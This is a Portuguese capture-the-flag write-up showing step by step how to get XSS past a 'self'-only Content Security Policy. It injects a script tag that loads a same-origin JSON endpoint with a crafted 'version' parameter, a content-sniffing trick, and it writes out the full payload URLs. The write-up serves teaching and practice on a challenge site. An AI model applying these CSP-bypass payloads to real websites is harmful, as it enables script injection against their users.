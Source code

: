 ### Resolução do desafio sniffing

1. Acessamos o endereço do desafio: https://bountyleaks.cf/challenge/sniffing.php
2. Um redirecionamento é feito para https://bountyleaks.cf/challenge/sniffing.php?message=You%20was%20successfully%20logged%20out
3. Se alterarmos o texto, inclusive com tags html, vemos que ela é refletida na página:
https://bountyleaks.cf/challenge/sniffing.php?message=<button>Teste</teste>
4. Mas, se tentarmos triggar um XSS com ```<script>alert(document.domain)</script>``` o alerta não é triggado. Por quê?
4.1 Para entender essa questão, acesse https://bountyleaks.cf/challenge/sniffing.php?message=<script>alert(document.domain)</script> e abra o console do navegador, apertando ctrl + shit + i e clicando na aba console
4.2 Observe o erro retornado pelo navegador devido à tentativa de execução de script nessa página:
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' sha256-Cn8Hzq+wmgPb5X2xqCqolSgXTEGPQNOsUufW22rF2Pg='". Either the 'unsafe-inline' keyword, a hash ('sha256-X6WoVv8sUlFXk0r+MI/R+p2PsbD1k74Z+jLIpYAjIgE='), or a nonce 'nonce-...') is required to enable inline execution.
4.3 O erro relata que o script não foi possível executar devido à política CSP vigente nessa aplicação.
O que faz sentido, pois ao vermos o código fonte da página, vemos o CSP declarado começando assim:
<meta http-equiv="Content-Security-Policy" content="base-uri 'self'; default-src 'self'; script-src 'self'
4.4 Repare que na parte de scripts, somente existe o valor 'self', ou seja, caso formos inserir qualquer <script src='url'> a url obrigatoriamente precisa ter a mesma origem do site acessado, devido ao parâmetro "self" (portanto bountyleaks.cf)
4.5 Outra observação interessante é que não existe o valor unsafe-inline, desse forma qualquer xss inline não será executado pois não foi de forma descrita liberado.
XSS como <script>alert(1)</script>, <img src=x onerror=alert()> não serão executados, exibindo erro de CSP no console tambem.
5. Sabemos então, que com o atual contexto, não conseguiremos triggar um xss usando o parâmetro message  (https://bountyleaks.cf/challenge/sniffing.php?message=)
6. Olhando mais o site, vemos que um script é importado de uma outra página:
<script src='/version.php'></script>
7. Você entende agora por que esse script não é bloqueado pelo CSP? Pois ele atende ao requisito do CSP, uma vez que se encaixa no contexto 'self', sendo de mesma origem, pois seu endereço é https://bountyleaks.cf/version.php
8. Ao abrirmos a página version.php vimos a principio um JS.
9.  Caso façamos um fuzzing de parametros nessa página (https://bountyleaks.cf/challenge/version.php?FUZZ=teste, descobrimos que existe um parametro que reflete na página: version
10. Portanto, https://bountyleaks.cf/challenge/version.php?version=<script>alert(1337)</script>, refletirá na página o payload
11. Pronto, achamos um XSS nessa página? Hm, também não. Por quê? Por que a página se você ver a resposta da página, verá que ela possui content-type application/json. Dessa forma, o conteúdo da página não está sendo tratado como um javascript, ou como html. O navegador não irá renderizar tags a fim de criar um alerta.
12. Agora chega o momento que devemos pensar que :
- Temos a página sniffing com o parametro message sendo refletido, podendo injetar html, mas o CSP exige que a tag script tenha mesma origem no parametro src
- Temos uma página (de mesma origem) que reflete o conteudo de um parâmetro, mas seu content-type é application/json
13. Dessa forma, podemos incluir a segunda página na primeira (embedding), usando a tag <script>.
13.1 Vamos primeiro fazer uma modificação na segunda página para vocês verem que será refletida na primeira:
https://bountyleaks.cf/challenge/version.php?version=123%27,%27teste%27:%271

Veja que criamos uma nova chave e valor no JSON da página, chamado teste

13.2 Agora, vamos incluir essa URL na primeira página, ficando assim:
https://bountyleaks.cf/challenge/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/challenge/version.php?version=123%2527,%2527teste%2527:%25271337%27></script><!--

- Nesta URL fizemos algumas modificações:
alteramos a aspas simples (%27) para double encoding (%2527), não para bypassar algo, mas se você visse no código fonte, veria que caso não o fizessemos, quebraria a estrutura da pagina
- A fim de demonstrar o cenário refletido, acrescemos um <!-- ao final, o que comentará todo o resto da página (desabilitando suas execuções posteriores). A explicação é que estamos incluindo a página /version.php dentro de um script, com argumentos nossos.
Mas logo a baixo, existe um outro <script src='version.php'> (nativo da página). Isto sobrescreveria nossos valores, e no momento quero mostrar para vocês que os valores estão refletindo, antes de triggar o XSS.

13.3 Após acessar a URL do item 13.2, abrimos o console do navegador e digitamos app.teste
Veja que o valor 1337 é retornado
13.4 Conseguimos incluir um script arbitrário! Agora só falta modificá-lo para ser um xss!

14. Sabendo que a chave pra resolver o desafio é manipular a segunda página para quando for processada pela primeira em formado de Javascript, vamos criar a segunda URL dessa forma:

https://bountyleaks.cf/challenge/version.php?version=123%27};alert(document.domain)//

E incluiremos na primeira página, ficando dessa forma:

https://bountyleaks.cf/challenge/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/challenge/version.php?version=123%2527};alert(document.domain)//%27></script>

15. Desafio resolvido \o/

Você acaba de bypassar duas convicções dos desenvolvedores:

que o CSP da primeira página por ser de mesma origem é seguro e que usando o content-type application/json nunca abre margem para um xss (aqui usamos uma tecnica chamada content sniffing ou mime sniffing)

